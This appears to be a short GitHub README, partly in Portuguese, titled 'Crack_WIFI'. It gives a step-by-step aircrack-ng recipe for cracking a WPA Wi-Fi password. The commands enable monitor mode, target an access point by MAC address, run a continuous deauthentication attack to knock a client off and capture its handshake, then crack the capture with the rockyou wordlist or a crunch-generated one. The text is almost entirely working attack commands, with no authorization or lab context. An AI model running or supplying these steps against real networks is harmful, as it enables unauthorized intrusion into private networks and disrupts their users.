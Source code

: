 # Crack_WIFI
Crack_WIFI <br>
 <br>
airmon-ng check wlan0  <br>
airmon-ng check kill  <br>
airmon-ng start wlan0  <br>
airodump-ng wlan0 -a --band abg  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg wlan0  <br>
airodump-ng -c 11 -d E4:C0:E2:1C:6E:6B -a --band abg -w captura wlan0  <br>
aireplay-ng --deauth 0 -a E4:C0:E2:1C:6E:6B -c 28:87:BA:3A:AF:CF wlan0  <br><br>
<b> APENAS DEPOIS DE APARECER NO CAMPO NOTES EAPOL, PARA PODER PARAR A CAPTURA  </b> <br><br>
![IMAGE01](https://github.com/fernandomxm/Crack_WIFI/blob/main/image01.png) 
![IMAGE02](https://github.com/fernandomxm/Crack_WIFI/blob/main/wpa-4-way-handshake-workflow.png) <br> <br>
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b E4:C0:E2:1C:6E:6B captura.cap  <br>
<br>
Para gerar a wordlist pode ser usado o: <br>
crunch 8 10 -f /usr/share/crunch/charset.lst mixalpha -o wordlist.txt <br>
<br>
O parâmetro PWR é o sinal WIFI. Quando mais perto de 0, melhor o sinal.  <br>

